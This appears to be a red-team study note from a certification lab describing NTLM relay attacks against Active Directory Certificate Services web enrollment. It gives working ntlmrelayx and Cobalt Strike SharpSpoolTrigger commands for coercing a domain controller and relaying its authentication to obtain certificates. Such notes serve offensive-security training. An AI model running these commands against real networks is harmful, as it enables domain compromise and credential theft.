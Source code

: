 
AD CS services support HTTP enrollment methods and even includes a GUI.  This endpoint is usually found at:

`http[s]://<hostname>/certsrv`

If NTLM authentication is enabled, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controlled location, relay the request to a CA to obtain a certificate for that DC, and then use it to obtain a TGT.

An important aspect to be aware of is that you cannot relay NTLM authentication back to the originating machine.  We therefore wouldn't be able to relay a DC to a CA if those services were running on the same machine.  This is indeed the case in the RTO lab, as each CA is running on a DC.

Another good way to abuse this primitive is by gaining access to a machine configured for [[Unconstrained Delegation]]

#### 🖊️ via Cobalt Strike

Requirements:
- PortBender on pwned machine to capture traffic on port 445 and redirect it to port 8445.
- A reverse port forward to forward traffic hitting port 8445 to the team server on port 445.
- A SOCKS proxy for [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to send traffic back into the network.

1) The ntlmrelayx command needs to target the `certfnsh.asp` page on the ADCS server.

```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

2) Then force the authentication to occur from target machine (example WEB) to local (example WKSTN-2):

`beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102`

3) Now, use [[S4U2Self Abuse]] to obtain a usable TGS and move laterally into the target.




#### ⚠ Opsec




### Properties
---
📆 created   {{20-02-2024}} 10:44
🏷️ tags: #redteam #crto 

---

